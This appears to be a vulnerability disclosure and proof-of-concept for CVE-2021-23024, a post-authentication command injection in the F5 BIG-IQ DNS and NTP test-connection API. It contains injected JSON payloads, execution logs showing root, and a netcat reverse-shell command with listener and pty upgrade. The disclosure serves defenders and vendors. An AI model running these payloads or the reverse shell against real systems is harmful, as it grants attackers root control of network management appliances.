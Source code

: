     F5 BIG-IQ VE v8.0.0-2923215 Post-auth Remote Root RCE

    CVE-2021-23024

    =======
    Details
    =======

    It was possible to execute commands with root privileges as an authenticated privileged user via command injection in easy-setup-test-connection.

    There are two blind command injection bugs in Test DNS Connection and Test NTP Connection features, which make request to mgmt/shared/system/easy-setup-test-connection.

    User accounts tested for calling the API:

    - Admin
    - User + Administrator Role

    SSH is enabled by default for the root user, but the system does not intend the admin account to gain a shell access:

    admin:x:0:500:Admin User:/home/admin:/bin/false

    But an admin (or a user with admin-like privileges) can elevate privileges to root and gain a shell via command injection in the web portal.

    =====
    Repro
    =====

    https://bigiq/ui/system/this-device/dns-ntp/dns-ntp-edit

    Modify and replay back the dnsServerAddresses JSON field.

    =======
    Request
    =======

    PUT /mgmt/shared/system/easy-setup-test-connection HTTP/1.1
    X-F5-Auth-Token: eyJraW.....
    .....

    {"dnsServerAddresses":["$(id>/tmp/id)"],"ntpServerAddresses":[]}

    or

    {"dnsServerAddresses":["8.8.8.8"],"ntpServerAddresses":["$(whoami)"]}

    ========
    Response
    ========

    HTTP/1.1 400 Bad Request
    Server: webd
    .....

    {"code":400,"message":"Dns $(id>/tmp/id) is not valid\n","originalRequestBody":"{\"dnsServerAddresses\":[\"$(id>/tmp/id)\"],\"ntpServerAddresses\":[]}","referer":"https://bigiq/ui/system/this-device/dns-ntp/dns-ntp-edit","restOperationId":2101063,"errorStack":[],"kind":":resterrorresponse"}

    and repectively

    {"code":400,"message":"NTP $(whoami) is not valid\n","originalRequestBody":"{\"dnsServerAddresses\":[\"8.8.8.8\"],\"ntpServerAddresses\":[\"$(whoami)\"]}","referer":"https://bigiq/ui/system/this-device/dns-ntp/dns-ntp-edit","restOperationId":2149253,"errorStack":[],"kind":":resterrorresponse"}

    =============
    Execution Log
    =============

    DNS:

    pid=7349 executed [/bin/sh -c  dig +short +time=5 +tries=1 @$(id>/tmp/id) ]
    pid=7351 executed [id ]
    pid=7349 executed [dig +short +time=5 +tries=1 @ ]

    [root@big:ModuleNotLicensed::LICENSE INOPERATIVE:Standalone] config # cat /tmp/id
    uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

    NTP:

    pid=1288 executed [/bin/sh -c dig +short +time=5 +tries=1 @8.8.8.8  $(whoami) ]
    pid=1290 executed [whoami ]
    pid=1288 executed [dig +short +time=5 +tries=1 @8.8.8.8 root ]

    ============
    Exploitation
    ============

    The netcat binary with -e support is installed on the system already making a remote shell easy for demo.

    A command such as this will provide the connection to our client listener: "nc 10.0.0.100 5000 -e /bin/bash" while on the client we will drop into a root shell on the bigiq server.

    $ nc -l -p 5000
    ... connection receieved

    python -c 'import pty; pty.spawn("/bin/bash")'

    [@big:ModuleNotLicensed::LICENSE INOPERATIVE:Standalone] restjavad # pwd

    /var/service/restjavad

    [@big:ModuleNotLicensed::LICENSE INOPERATIVE:Standalone] restjavad # id

    uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

    [@big:ModuleNotLicensed::LICENSE INOPERATIVE:Standalone] restjavad # ps
    .....
    32320 ?        S      0:00 su elasticsearch -s /bin/bash -c export JAVA_HOME=/usr/lib/jvm/jre-1.8.0-openjdk.x86_64;export ES_JAVA_OPTS='-Xms6000m -Xmx6000m';export ES_PATH_CONF=/var/config/rest/elasticsearch/config;exec bin/elasticsearch >/dev/null 2>&1
    32335 tty1     S      0:00 python -c import pty; pty.spawn("/bin/bash")
    32336 pts/0    Ss     0:00 /bin/bash

    ===
    Fix
    ===

    https://support.f5.com/csp/article/K06024431